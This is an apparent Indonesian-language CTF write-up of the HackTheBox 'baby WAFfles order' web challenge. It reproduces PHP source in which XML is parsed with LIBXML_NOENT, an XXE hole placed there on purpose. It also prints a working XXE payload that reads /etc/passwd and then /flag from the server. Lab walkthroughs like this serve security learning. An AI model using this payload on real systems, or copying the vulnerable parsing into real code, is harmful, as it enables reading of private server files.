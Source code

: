 CTF Name           : HackTheBox Challenges

Challenge category : Web

Challenge Name     : baby WAFfles order

Challenge points   : 0 Points

Challenge desc     : Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!


Pada challenge ini, kita diberikan sebuah web instance beserta source codenya. Berikut adalah tampilan dari web instance dan direktori source codenya.
![Pasted image 20240807223111](https://github.com/user-attachments/assets/bb701e7c-9057-42e1-91d7-883dc6f90364)


![Pasted image 20240807223247](https://github.com/user-attachments/assets/88456c41-8d9c-411a-ab23-b68144560b23)


Kalau kita lihat dari title web dan judul direktori source codenya, terdapat hint tentang ‘XXE’. XXE atau XML External Entity adalah kerentanan dimana penyerang dapat menyisipkan XML ke dalam aplikasi. Untuk bacaan tentang XXE bisa di [Portswigger](https://portswigger.net/web-security/xxe), [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing), maupun [Hacktricks.](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

Berikut adalah source index.php-nya.
```
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');

die($router->match());
```

Dan berikut adalah source Router.php-nya.
```
<?php
class Router 
{
    public $routes = [];

    public function new($method, $route, $controller)
    {
        $r = [
            'method' => $method,
            'route'  => $route,
        ];

        if (is_callable($controller))
        {
            $r['controller']    = $controller;
            $this->routes[]     = $r;
        }
        else if (strpos($controller, '@'))
        {
            $split      = explode('@', $controller);
            $class      = $split[0];
            $function   = $split[1];
            
            $r['controller'] = [
                'class'     => $class,
                'function'  => $function
            ];
            
            $this->routes[] = $r;
        }
        else
        {
            throw new Exception('Invalid controller');
        }
    }

    public function match()
    {
        foreach($this->routes as $route)
        {
            if ($this->_match_route($route['route']))
            {
                if ($route['method'] != $_SERVER['REQUEST_METHOD'])
                {
                    $this->abort(405);
                }
                $params = $this->getRouteParameters($route['route']);

                if (is_array($route['controller']))
                {
                    $controller = $route['controller'];
                    $class      = $controller['class'];
                    $function   = $controller['function'];

                    return (new $class)->$function($this,$params);
                }
                return $route['controller']($this,$params);
            }
        }

        $this->abort(404);
    }

    public function _match_route($route)
    {
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        if (count($uri) != count($route)) return false;

        foreach ($route as $key => $value)
        {
            if ($uri[$key] != $value && $value != '{param}') return false;
        }

        return true;
    }

    public function getRouteParameters($route)
    {
        $params = [];
        $uri = explode('/', strtok($_SERVER['REQUEST_URI'], '?'));
        $route = explode('/', $route);

        foreach ($route as $key => $value)
        {
            if ($uri[$key] == $value) continue;
            if ($value == '{param}')
            {
                if ($uri[$key] == '')
                {
                    $this->abort(404);
                }
                $params[] = $uri[$key];
            }
        }

        return $params;
    }

    public function abort($code)
    {
        http_response_code($code);
        exit;
    }

    public function view($view, $data = [])
    {
        extract($data);
        include __DIR__."/views/${view}.php";
        exit;
    }
}
```

Sekilas, dari source code index.php dan Router.php tidak terlihat sesuatu yang mencurigakan. Selanjutnya kita coba untuk melihat source code dari controllernya, mengapa melihat controller terlebih dahulu? Karena controller memiliki fungsi yang sangat penting, seperti mengelola request, routing, pengelolaan session dan security, dan lain sebagainya. Berikut adalah source code OrderController.php.
```
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

Dari program di atas, bisa kita lihat bahwa program ini menerima XML di dalam entity ‘order’ dan ‘food’. 
Berikut adalah payload untuk testing XXE-nya.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<order>
    <food>&file;</food>
</order>
```

Payload di atas akan memanggil /etc/passwd dari server, tag ‘order’ dan tag ‘food’ disesuaikan dengan source code dari controllernya tadi. Sebelum pengetesan, pastikan Content-Typenya kita ubah menjadi ‘application/xml’ terlebih dahulu agar XXE-nya dapat dieksekusi oleh aplikasi sesuai dengan source codenya. Berikut adalah contoh request menggunakan Burp Suite.

![Pasted image 20240807231806](https://github.com/user-attachments/assets/d5ce57dc-57cf-4973-a9c2-da56f74b68b0)



Ternyata benar webnya memiliki kerentanan terhadap XXE, selanjutnya adalah objektif kita untuk mencari flagnya, yaitu dengan mengubah ‘/etc/passwd’ dengan ‘/flag’ barangkali flagnya ditaruh di /flag. 

![Pasted image 20240807232047](https://github.com/user-attachments/assets/87ecabf3-4921-4f5f-b8a1-854bb38dcc20)



Terima Kasih Semoga Bermanfaat:)

